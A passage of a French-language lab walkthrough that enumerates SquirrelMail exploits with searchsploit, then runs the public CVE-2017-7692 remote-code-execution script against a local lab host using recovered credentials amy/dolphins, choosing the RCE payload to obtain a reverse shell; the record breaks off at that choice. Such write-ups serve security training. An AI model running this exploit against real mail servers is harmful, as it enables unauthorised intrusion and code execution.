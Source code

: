 Parmi la liste d'exploits disponibles pour SquirrelMail, un seul d'entre eux semble « compatible » avec le setup actuel (version < 1.4.22).

```console
root@blinils:~# searchsploit squirrelmail | grep 1.4

SquirrelMail 1.4.2 Address Add Plugin - 'add.php' Cross-Site Scripting                                      | exploits/php/webapps/26305.txt
SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                                                       | exploits/php/webapps/24068.txt
SquirrelMail 3.1 - Change Passwd Plugin Local Buffer Overflow                                               | exploits/linux/local/1449.c
SquirrelMail < 1.4.22 - Remote Code Execution                                                               | exploits/linux/remote/41910.sh
SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                                                     | exploits/php/webapps/43830.txt
SquirrelMail < 1.4.7 - Arbitrary Variable Overwrite                                                         | exploits/php/webapps/43839.txt
Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                                                    | exploits/php/webapps/27948.txt
```

La CVE-2017-7692 [a parfaitement été décrite ici](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html) par le concepteur de l'exploit, [Dawid Golunski](https://twitter.com/dawid_golunski) ; inutile donc de paraphraser, toutes les informations se trouvent sur son site LegalHackers. Grâce au couple d'identifiants amy/dolphins trouvé auparavant, un reverse-shell sera créé lors de l'exécution de l'exploit.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/remote/41910.sh .

root@blinils:~# ./41910.sh http://192.168.56.101/mail/
bash: ./41910.sh: /bin/bash^M: bad interpreter: No such file or directory

root@blinils:~# sed -i -e 's/\r$//' 41910.sh
root@blinils:~# ./41910.sh http://192.168.56.101/mail/

--snip--                                                  
SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)

SquirrelMail_RCE_exploit.sh (ver. 1.0)

Discovered and coded by 

Dawid Golunski (@dawid_golunski)
https://legalhackers.com

ExploitBox project:
https://ExploitBox.io

[*] Enter SquirrelMail user credentials
user: amy
pass: dolphins

[*] Logging in to SquirrelMail at http://192.168.56.101/mail/

[*] Uploading Sendmail config

[?] Select payload

1 - File write (into /tmp/sqpoc)
2 - Remote Code Execution (with the uploaded smcnf-exp + phpsh)

[1-2] 2

```